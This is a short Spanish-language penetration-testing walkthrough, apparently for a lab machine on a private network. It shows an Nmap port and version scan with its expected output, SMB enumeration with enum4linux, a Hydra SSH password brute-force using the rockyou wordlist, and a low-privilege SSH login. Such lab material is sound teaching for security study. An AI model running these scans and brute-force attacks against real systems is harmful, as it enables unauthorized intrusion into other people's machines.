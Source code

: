 
#### 1. 🔍 Escaneo de red y puertos con Nmap

```bash
nmap -sS -sV -O 192.168.56.101
```

**Salida esperada**:

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu
80/tcp   open  http        Apache 2.4.18
139/tcp  open  netbios-ssn Samba
445/tcp  open  microsoft-ds Samba
```

---

#### 2. 🌐 Navegar al puerto 80 (HTTP)

Ir a `http://192.168.56.101` en tu navegador.

> Verifica si hay formularios de login, uploads, etc.

---

#### 3. 🔐 Enumerar SMB con `enum4linux`

```bash
enum4linux -a 192.168.56.101
```

> Busca usuarios, recursos compartidos, nombres de máquina, etc.

---

#### 4. 🧪 Ataque de fuerza bruta con `Hydra`

Supongamos que encontramos un usuario llamado `john`.

```bash
hydra -l john -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.101
```

> Esto intentará adivinar la contraseña por fuerza bruta vía SSH.

---

#### 5. 🔓 Acceso por SSH

Una vez que consigas una contraseña válida:

```bash
ssh john@192.168.56.101
```

> Ahora estás **dentro del sistema como usuario bajo privilegio**.

---
